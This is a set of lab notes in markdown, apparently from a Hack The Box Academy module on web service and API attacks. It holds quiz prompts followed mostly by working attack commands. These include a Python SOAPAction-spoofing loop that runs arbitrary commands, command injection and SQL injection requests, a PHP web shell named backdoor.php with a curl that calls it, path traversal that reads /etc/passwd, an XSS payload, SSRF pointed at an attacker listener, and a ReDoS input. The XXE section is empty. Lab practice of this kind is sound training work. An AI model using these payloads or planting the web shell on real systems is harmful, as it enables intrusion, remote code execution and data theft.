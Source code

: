 
# Web Service & API Attacks 


# Web Services Description Language (WSDL)

 If you should think of the operation object in WSDL as a programming concept, which of the following is closer in terms of the provided functionality? Answer options (without quotation marks): "Data Structure", "Method", "Class" 

```bash
dirb http://<TARGET IP>:3002

curl http://<TARGET IP>:3002/wsdl 

ffuf -w "/home/htb-acxxxxx/Desktop/Useful Repos/SecLists/Discovery/Web-Content/burp-parameter-names.txt" -u 'http://<TARGET IP>:3002/wsdl?FUZZ' -fs 0 -mc 200

```

# SOAPAction Spoofing


Exploit the SOAPAction spoofing vulnerability and submit the architecture of the web server as your answer. Answer options (without quotation marks): "x86_64", "x86" 




```bash

 curl http://<TARGET IP>:3002/wsdl?wsdl 

```

```python
import requests

while True:
    cmd = input("$ ")
    payload = f'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>{cmd}</cmd></LoginRequest></soap:Body></soap:Envelope>'
    print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)


```


# Command Injection




```bash

sudo tcpdump -i tun0 icmp


curl http://10.129.89.130:3003/ping-server.php/ping/10.10.16.3/3

curl http://10.129.89.130:3003/ping-server.php/system/whoami



```

# Attacking WordPress 'xmlrpc.php'


```bash
curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>CORRECT-PASSWORD</value></param></params></methodCall>" http://blog.inlanefreight.com/xmlrpc.php


```


# Information Disclosure (with a twist of SQLi)


```bash

ffuf -w "/usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt" -u 'http://10.129.89.130:3003/?FUZZ=test_value' -fs 19


curl http://10.129.89.130:3003/?id=1'+or+'1'='1


```


# Arbitrary File Upload
## PHP File Upload via API to RCE

https://academy.hackthebox.com/module/160/section/1500 -> how to get a stable reverse shell in php

backdoor.php

```php
<?php if(isset($_REQUEST['cmd'])){ $cmd = ($_REQUEST['cmd']); system($cmd); die; }?>


```

```bash

curl http://10.129.89.130:3001/uploads/backdoor.php?cmd=hostname


```

# Local File Inclusion (LFI)


```bash

curl http://10.129.202.133:3000/api

ffuf -w "/usr/share/seclists/Discovery/Web-Content/common-api-endpoints-mazen160.txt" -u 'http://10.129.202.133:3000/api/FUZZ'

curl http://10.129.202.133:3000/api/download/..%2f..%2f..%2f..%2fetc%2fpasswd


```


# Cross-Site Scripting (XSS)


```bash
http://<TARGET IP>:3000/api/download/%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

```


# Server-Side Request Forgery (SSRF)



```bash
echo "http://<VPN/TUN Adapter IP>:<LISTENER PORT>" | tr -d '\n' | base64

curl "http://<TARGET IP>:3000/api/userinfo?id=<BASE64 blob>"

```

# Regular Expression Denial of Service (ReDoS)

```bash
curl "http://<TARGET IP>:3000/api/check-email?email=test_value"

curl "http://<TARGET IP>:3000/api/check-email?email=jjjjjjjjjjjjjjjjjjjjjjjjjjjj@ccccccccccccccccccccccccccccc.55555555555555555555555555555555555555555555555555555555."


```

# XML External Entity (XXE) Injection

```bash



``` 
